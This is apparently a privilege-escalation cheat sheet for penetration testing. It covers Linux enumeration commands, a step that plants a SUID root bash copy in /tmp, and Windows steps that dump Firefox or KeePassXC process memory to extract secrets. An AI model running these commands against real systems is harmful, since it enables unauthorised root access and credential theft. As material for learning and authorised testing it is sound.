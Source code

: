 # Linux

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -type f -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
## Exploitation

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

# Windows

# Enumeration

List Processes
`get-process`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

Whoami Group Info
`whoami /groups`
